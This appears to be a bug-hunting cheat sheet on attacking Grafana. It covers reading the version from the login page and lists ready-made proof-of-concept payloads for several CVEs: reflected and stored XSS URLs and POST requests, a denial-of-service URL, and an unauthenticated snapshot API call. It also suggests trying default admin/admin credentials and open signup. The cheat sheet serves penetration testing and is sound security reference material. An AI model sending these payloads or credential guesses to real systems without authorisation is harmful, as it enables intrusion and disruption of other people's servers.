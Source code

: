 ```yaml
---
title: Grafana HackTricks
tags: [bug hunting, grafana]
categories: [bug hunting, grafana]
date: 2022-05-08 11:33:00
---
```






# Grafana

## Introduction
What would you do if you came across a website that uses Grafana?

## How to Detect
Try to HTTP request to `https://example.com/login` and there is a form login

1. Find the related CVE by checking grafana version
* How to find the grafana version

Try to request to `https://example.com/login` and then check the source code. You will find the version in JSON body `"isEnterprise":false,"latestVersion:"9.0.0","version":"8.3.2"` so 8.3.2 is the grafana version. If you found outdated grafana version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-18548/product_id-47055/Grafana-Grafana.html)

Some example CVE:

- CVE-2021-41174 (Reflected XSS)
```
https://example.com/dashboard/snapshot/%7B%7Bconstructor.constructor('alert(1)')()%7D%7D?orgId=1
```
- CVE-2020-13379 (Denial of Service)
```
https://example.com/avatar/%7B%7Bprintf%20%22%25s%22%20%22this.Url%22%7D%7D
```
- CVE-2020-11110 (Stored XSS)
```
POST /api/snapshots HTTP/1.1
Host: example.com
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: {{BaseURL}}
content-type: application/json
Connection: close

{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```
- CVE-2019-15043 (Grafana Unauthenticated API)
```
POST /api/snapshots HTTP/1.1
Host: example.com
Connection: close
Content-Length: 235
Accept: */*
Accept-Language: en
Content-Type: application/json

{"dashboard":{"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}
```
2. Default Credentials
```
Try to login using admin as username and password
```
3. Signup Enabled
```
https://example.com/signup
```
